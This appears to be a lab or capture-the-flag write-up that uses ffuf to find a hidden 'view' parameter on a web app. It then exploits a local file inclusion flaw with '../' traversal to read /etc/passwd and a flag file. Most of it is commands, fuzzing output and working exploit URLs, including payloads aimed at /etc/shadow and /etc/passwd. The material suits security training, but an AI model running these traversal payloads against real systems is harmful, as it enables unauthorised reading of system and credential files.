


## Exercises

### Question 1 — Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt

Fuzzed for a baseline response first, to find the "parameter not recognised" response size to filter out:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://154.57.164.82:37147/index.php?FUZZ=value' -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://154.57.164.82:37147/index.php?FUZZ=value
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

21                      [Status: 200, Size: 2309, Words: 571, Lines: 56, Duration: 35ms]
AddressResult           [Status: 200, Size: 2309, Words: 571, Lines: 56, Duration: 36ms]
22                      [Status: 200, Size: 2309, Words: 571, Lines: 56, Duration: 35ms]
15                      [Status: 200, Size: 2309, Words: 571, Lines: 56, Duration: 36ms]
Accounts                [Status: 200, Size: 2309, Words: 571, Lines: 56, Duration: 36ms]
AddressStatus           [Status: 200, Size: 2309, Words: 571, Lines: 56, Duration: 36ms]
AddAuthItemForm         [Status: 200, Size: 2309, Words: 571, Lines: 56, Duration: 35ms]
—SNIP—
```

**Breakdown:**
- `-u 'http://154.57.164.82:37147/index.php?FUZZ=value'` the target URL, with `FUZZ` marking the parameter name to substitute and `value` a fixed dummy value
- `-w /usr/share/wordlists/seclists/.../burp-parameter-names.txt:FUZZ` a wordlist of common parameter names, with `:FUZZ` naming the placeholder
- `-ic` ignores comments in the wordlist
- `-c` colours the output

Almost every guess returned the same `2309`-byte response — the baseline for an unrecognised parameter. Re-ran filtering that size out, to surface only parameters that produced a genuinely different response:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://154.57.164.82:37147/index.php?FUZZ=value' -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -ic -c -fs 2309 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://154.57.164.82:37147/index.php?FUZZ=value
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2309
________________________________________________

view                    [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 36ms]
:: Progress: [6453/6453] :: Job [1/1] :: 1169 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```

**Breakdown:**
- `-fs 2309` filters out any response of exactly 2309 bytes (the baseline "unrecognised parameter" size)

A single parameter, `view`, stood out with a different size — not linked to any visible form on the page.

Fuzzed `view` with an LFI wordlist, again capturing the baseline response size first (no traversal payload matching, dummy junk returned):

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://154.57.164.82:37147/index.php?view=FUZZ' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://154.57.164.82:37147/index.php?view=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

/../../../../../../../../%2A [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 34ms]
%00../../../../../../etc/shadow [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 34ms]
/.../.../.../.../.../   [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 34ms]
\…..\\\…..\\\…..\\\     [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 37ms]
%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%00 [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 35ms]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 36ms]
admin/access_log        [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 36ms]
—SNIP—
```

Once more, filtered the default size out to isolate payloads that produced a genuinely different response:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://154.57.164.82:37147/index.php?view=FUZZ' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -ic -c -fs 1935

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://154.57.164.82:37147/index.php?view=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1935
________________________________________________

../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 33ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 33ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 33ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 34ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 34ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 33ms]
:: Progress: [930/930] :: Job [1/1] :: 87 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Several depths of plain `../` traversal against `/etc/passwd` worked, all returning the same larger response size — the exact traversal count didn't need to be minimal, just sufficient to reach root. Confirmed with the shortest working payload:

```
http://154.57.164.82:37147/index.php?view=../../../../../../../../../../../../../../../../../etc/passwd
```



Reused the same traversal depth to read the flag:

```
http://154.57.164.82:37147/index.php?view=../../../../../../../../../../../../../../../../../flag.txt
```



**Answer:** `—REDACTED—`